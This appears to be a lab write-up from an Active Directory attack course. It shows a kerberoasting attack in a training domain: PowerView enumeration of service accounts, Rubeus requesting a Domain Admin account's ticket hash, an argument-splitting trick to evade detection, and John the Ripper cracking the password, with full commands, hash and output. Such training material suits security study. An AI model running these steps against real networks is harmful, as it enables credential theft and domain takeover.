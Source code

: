 # Learning Objective 14

## Tasks

1. **Using the kerberoasting attack, crack password of a SQL server service account**

---

## Solution

1. **Using the kerberoasting attack, crack password of a SQL server service account**

First, we need to find services running with user accounts as the services running with machine accounts have difficult passwords. We can use PowerView or ADModule for discovering such services.

![Victim: dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`. C:\AD\Tools\PowerView.ps1`

`Get-DomainUser -SPN`:
```
[SNIP]

logoncount               : 5
badpasswordtime          : 12/31/1600 4:00:00 PM
distinguishedname        : CN=web svc,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass              : {top, person, organizationalPerson, user}
displayname              : web svc
lastlogontimestamp       : 10/25/2024 3:37:34 AM
userprincipalname        : websvc
whencreated              : 11/14/2022 12:42:13 PM
samaccountname           : websvc📌
codepage                 : 0
samaccounttype           : USER_OBJECT
accountexpires           : NEVER
countrycode              : 0
whenchanged              : 10/25/2024 10:37:34 AM
instancetype             : 4
usncreated               : 38071
objectguid               : b7ab147c-f929-4ad2-82c9-7e1b656492fe
sn                       : svc
lastlogoff               : 12/31/1600 4:00:00 PM
msds-allowedtodelegateto : {CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL, CIFS/dcorp-mssql}
objectcategory           : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata    : {12/5/2024 12:47:28 PM, 11/14/2022 12:42:13 PM, 1/1/1601 12:00:01 AM}
serviceprincipalname     : {SNMP/ufc-adminsrv.dollarcorp.moneycorp.LOCAL, SNMP/ufc-adminsrv}📌
givenname                : web
usnchanged               : 255349
lastlogon                : 10/25/2024 3:37:34 AM
badpwdcount              : 0
cn                       : web svc
useraccountcontrol       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
objectsid                : S-1-5-21-719815819-3726368948-3917688648-1114
primarygroupid           : 513
pwdlastset               : 11/14/2022 4:42:13 AM
name                     : web svc

logoncount            : 39
badpasswordtime       : 11/25/2022 4:20:42 AM
description           : Account to be used for services which need high privileges.
distinguishedname     : CN=svc admin,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
objectclass           : {top, person, organizationalPerson, user}
displayname           : svc admin
lastlogontimestamp    : 2/14/2025 1:45:16 AM
userprincipalname     : svcadmin
samaccountname        : svcadmin📌
admincount            : 1
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 2/14/2025 9:45:16 AM
instancetype          : 4
usncreated            : 40118
objectguid            : 244f9c84-7e33-4ed6-aca1-3328d0802db0
sn                    : admin
lastlogoff            : 12/31/1600 4:00:00 PM
whencreated           : 11/14/2022 5:06:37 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
dscorepropagationdata : {2/14/2025 3:40:35 PM, 2/14/2025 2:40:35 PM, 2/14/2025 1:40:35 PM, 2/14/2025 12:40:35 PM...}
serviceprincipalname  : {MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433, MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local}📌
givenname             : svc
usnchanged            : 1139619
memberof              : CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local
lastlogon             : 2/14/2025 4:58:23 AM
badpwdcount           : 0
cn                    : svc admin
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
objectsid             : S-1-5-21-719815819-3726368948-3917688648-1118
primarygroupid        : 513
pwdlastset            : 11/14/2022 9:06:37 AM
name                  : svc admin
```

Neat! The `svcadmin`, which is a domain administrator has a SPN set! Let's kerberoast it!

**Rubeus and John the Ripper**

We can use Rubeus to get hashes for the `svcadmin` account.

Note that we are using the `/rc4opsec` option that gets hashes only for the accounts that support RC4. This means that if `This account supports Kerberos AES 128/256 bit encryption` is set for a service account, the below command will not request its hashes.

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args kerberoast /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt`:
```
```
❌

![Victim: dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\ArgSplit.bat`:
```
[!] Argument Limit: 180 characters
[+] Enter a string: kerberoast📌
set "z=t"
set "y=s"
set "x=a"
set "w=o"
set "v=r"
set "u=e"
set "t=b"
set "s=r"
set "r=e"
set "q=k"
set "Pwn=%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
```

```
set "z=t"
set "y=s"
set "x=a"
set "w=o"
set "v=r"
set "u=e"
set "t=b"
set "s=r"
set "r=e"
set "q=k"
set "Pwn=%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
```

`echo %Pwn%`:
```
kerberoast
```

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt`:
```
[SNIP]

[*] Action: Kerberoasting

[*] Using 'tgtdeleg' to request a TGT for the current user
[*] RC4_HMAC will be the requested for AES-enabled accounts, all etypes will be requested for everything else
[*] Target User            : svcadmin
[*] Target Domain          : dollarcorp.moneycorp.local
[+] Ticket successfully imported!
[*] Searching for accounts that only support RC4_HMAC, no AES
[*] Searching path 'LDAP://dcorp-dc.dollarcorp.moneycorp.local/DC=dollarcorp,DC=moneycorp,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=svcadmin)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))(!msds-supportedencryptiontypes:1.2.840.113556.1.4.804:=24))'

[*] Total kerberoastable users : 1

[*] Hash written to C:\AD\Tools\hashes.txt

[*] Roasted hashes written to : C:\AD\Tools\hashes.txt📌
```

We can now use John the Ripper to brute-force the hashes.

Please note that you need to remove ":1433" from the SPN in `hashes.txt` before running John.

`type C:\AD\Tools\hashes.txt`:
```
$krb5tgs$23$*svcadmin$DOLLARCORP.MONEYCORP.LOCAL$MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433*$5D4CC629D36FC997F43A4E1929AAA3E6$19A5438620F00654A115B7E1E46B2254269A7C6F68B695F5F0B17FDB5F7CA4FE98C7B40FDC4CD69AC0BB96707979B73746D7C28A5D74DD328CCAAF0C1866480E9B5F436601CCCF7E89034C81F40B19B508E4C44CF97C9B37923F121B370A0EBB1BF283C696B9AED43E2E83E54522483ABE2C7EA2F0496B54F885AC53C61F6DD3CFE78

[SNIP]
```

`notepad C:\AD\Tools\hashes.txt`:
```
$krb5tgs$23$*svcadmin$DOLLARCORP.MONEYCORP.LOCAL$MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local*$5D4CC629D36FC997F43A4E1929AAA3E6$19A5438620F00654A115B7E1E46B2254269A7C6F68B695F5F0B17FDB5F7CA4FE98C7B40FDC4CD69AC0BB96707979B73746D7C28A5D74DD328CCAAF0C1866480E9B5F436601CCCF7E89034C81F40B19B508E4C44CF97C9B37923F121B370A0EBB1BF283C696B9AED43E2E83E54522483ABE2C7EA2F0496B54F885AC53C61F6DD3CFE78

[SNIP]
```

`C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt`:
```
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*ThisisBlasphemyThisisMadness!!🔑 (?)
1g 0:00:00:00 DONE (2025-02-14 08:05) 10.10g/s 20686p/s 20686c/s 20686C/s energy..mollie
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
🚩

---
---
